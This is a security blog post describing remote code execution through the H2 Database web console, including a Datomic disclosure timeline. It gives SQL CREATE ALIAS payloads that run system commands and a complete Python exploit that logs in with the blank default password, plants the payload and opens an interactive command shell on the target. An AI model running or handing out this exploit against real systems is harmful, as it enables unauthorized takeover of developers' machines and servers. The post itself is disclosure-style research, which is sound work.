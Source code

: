 ```yaml
---
layout: post
title: Abusing H2 Database ALIAS 
description: How to get a shell on a H2 Database, using ALIAS feature.
keywords: rce,abusing,shell,database 
disqus: true
tags: [RCE]
categories: RCE 
---
```

#### How to get a shell on a H2 Database, using ALIAS feature.
Today I was introduced to [H2 Database](http://www.h2database.com), a in-memory and pure Java Database, because it's a in-memory database, the developers use it most to learning, unit tests and poc's, but you can learn more about it on H2 [site](2018-03-14-abusing-h2-database-alias.markdown).

The H2 provides a web console, where you can manage your database, and here the things starts to be more interesting, by default it does not have an password set, so you can just log in, but what can we do inside it? The first thing I tried was the same trick that everyone knows on MySQL.

```
SELECT 'SOME CONTENT' INTO OUTFILE '/tmp/saida.txt'
```

And of course it didn't work, so I decided to be more smart and google it, trying to discover if anybody already find some RCE on it, and the maximum I found was a report made by the H2 Group on [SecurityFocus]('https://www.securityfocus.com/bid/58536'), but there wasn't an available exploit or any technical detail.

So after it I did the most obvious thing, open the H2 site, go to the documentation, and tried to find any interesting function, the first thing I found was the [FILE_READ](http://www.h2database.com/html/functions.html?highlight=FILE_READ&search=FILE_#file_read) function, where I can read files from filesystem, Ok, cool, it's a nice thing to do, but it's not a shell, so digging on SQL commands section, I found the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias), basically, you can create an function on H2 that calls a java code, as the example

```
CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
CALL GET_SYSTEM_PROPERTY('java.class.path');
```
or a more complex alias,
```
CREATE ALIAS REVERSE AS $$ String reverse(String s) { return new StringBuilder(s).reverse().toString(); } $$;
CALL REVERSE('Test');
```

Now it's game over, if I can execute Java code, I can get a shell, as I'm not a Java expert, I searchon Google a easy way to execute system commands with java, found a link on [stackoverflow](https://stackoverflow.com/a/20624914), I just adapted it inside the ALIAS, and now there's a function that execute arbitrary code,
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('id')
```

After that just find if the server have any tool to do a [reverse shell](https://github.com/mthbernardes/rsg), and you'll gain a interactive shell.

![h2-console-rce](/assets/images/h2-console-rce.gif)

#### Attack Scenario
One scenario is a distributed database called Datomic. The free version of Datomic uses an embedded H2 storage, and older versions of Datomic enabled the H2 console with the default blank H2 password. The free version is often used locally by developers for quick prototyping, thus unauthenticated local attackers can easily compromise their machines. The issue was disclosed to the Datomic team and was quickly [fixed](http://blog.datomic.com/2018/03/important-security-update.html).

#### Datomic Timeline
2018-03-14 - Initial Vulnerability discovery

2018-03-20 - First contact with Datomic team

2018-03-29 - Fix released

2018-04-05 - Blog published.

#### Exploit

```python
import sys
import argparse
import html
import requests

def getCookie(host):
    url = 'http://{}'.format(host)
    r = requests.get(url)
    path = r.text.split('href = ')[1].split(';')[0].replace("'","").replace('.jsp','.do')
    return '{}/{}'.format(url,path)

def login(url,user,passwd,database):
    data = {'language':'en','setting':'Generic+H2+(Embedded)','name':'Generic+H2+(Embedded)','driver':'org.h2.Driver','url':database,'user':user,'password':passwd}
    r = requests.post(url,data=data)
    if '<th class="login">Login</th>' in r.text:
        return False
    return True

def prepare(url):
    cmd = '''CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;'''
    url = url.replace('login','query')
    r = requests.post(url,data={'sql':cmd})
    if not 'Syntax error' in r.text:
        return url
    return False

def execve(url,cmd):
    r = requests.post(url,data={'sql':"CALL EXECVE('{}')".format(cmd)})
    try:
        print(html.unescape(r.text.split('</th></tr><tr><td>')[1].split('</td>')[0].replace('<br />','\n').replace('&nbsp;',' ')).encode('utf-8').decode('utf-8','ignore'))
    except Exception as e:
        print('Something goes wrong')
        print(e)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    required = parser.add_argument_group('required arguments')
    required.add_argument("-H",
            "--host",
            metavar='127.0.0.1:4336',
            help="Specify a host",
            required=True)
    required.add_argument("-d",
            "--database-url",
            metavar='jdbc:h2~/test',
            default="jdbc:h2~/test",
            help="Database URL",
            required=False)
    required.add_argument("-u",
            "--user",
            metavar='username',
            default="sa",
            help="Username to log on H2 Database, default sa",
            required=False)
    required.add_argument("-p",
            "--password",
            metavar='password',
            default="",
            help="Password to log on H2 Database, default None",
            required=False)
    args = parser.parse_args()

url = getCookie(args.host)
if login(url,args.user,args.password,args.database_url):
    url = prepare(url)
    if url:
        while 1:
            try:
                cmd = input('cmdline@ ')
                execve(url,cmd)
            except KeyboardInterrupt:
                print("\nProfessores ensinam, nadadores Nadam e Hackers Hackeiam")
                sys.exit(0)
    else:
        print('ERROR - Inserting Payload')
        print("Something goes wrong, exiting...")
else:
    print("ERROR - Auth")
    print("Something goes wrong, exiting...")
```
